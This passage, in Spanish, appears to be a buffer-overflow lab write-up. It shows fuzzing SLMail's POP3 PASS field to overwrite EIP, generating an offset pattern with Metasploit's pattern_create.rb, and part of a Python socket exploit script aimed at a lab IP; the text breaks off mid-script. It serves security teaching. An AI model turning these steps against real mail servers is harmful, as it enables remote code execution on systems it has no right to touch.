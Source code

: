 ```bash

if __name__ == '__main__':
	exploit()
```

## Tomar el control del EIP

Lo que hará el script es tomar un número como argumento y será la cantidad de “A” que se enviarán en el campo “PASS” por lo que si se le especifican 200, se enviarán 200 “A”. La idea es acontecer un error y poder llegar a sobrescribir los registros para tomar el control del EIP.

Al enviar 4000 caracteres, el programa se detuvo y se sobrescribió el EIP con “41414141” lo cual corresponde a cuatro “A” en hexadecimal.

![Untitled](../assets/Buffer-Overflow/Lab1/Fuzzing-Control-EIP/Untitled 6.png)

![Untitled](../assets/Buffer-Overflow/Lab1/Fuzzing-Control-EIP/Untitled 7.png)

El programa crasheó y para restaurarlo hay que cerrar y abrir la ventana del SLMailconfiguration para correr el servicio y volver a abrir el Immunity Debugger para volver a abrir el proceso del SLMail y darle a Play, el programa debería estar ahora en “Running”.

Una vez descubierta la posibilidad de sobrescribir los registros, ahora hay que descubrir cuántos caracteres hay que ingresar antes de sobrescribir el EIP.

Primero, se debe crear una cadena de caracteres con patrones, para esto se puede utilizar una herramienta de metasploit llamada “pattern_create.rb”:

```bash
/usr/share/metasploit-framework/
tools/exploit/pattern_create.rb -l 4000

-l # Indica la cantidad de caracteres a crear
```

Ahora se modificará el script para que envíe toda la cadena de caracteres proporcionada por el “pattern_create”. El script quedará de la siguiente manera:

```bash
#!/usr/bin/python3

import socket
import sys

# Variables globales
ip_add = "192.168.0.104" # IP destino
port = 110 # Puerto destino
payload = b'<patrón con 4000 caracteres>'

def exploit():
	
	# Create a socket.
	# Esto sirve para especificar que se entrablará 
	# una conexión TCP.
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

	# Connect to the server.
	# Sirve para establecer esa conexión TCP,
	# se especifica la IP y el puerto.
	s.connect((ip_add, port))

	# Receive the banner.
	# Sirve para verificar que se estableció la conexión
	# correctamente.
	# Específicamente se está recibiendo una cadena de 
	# caracteres de la cabecera de repuesta del servidor
```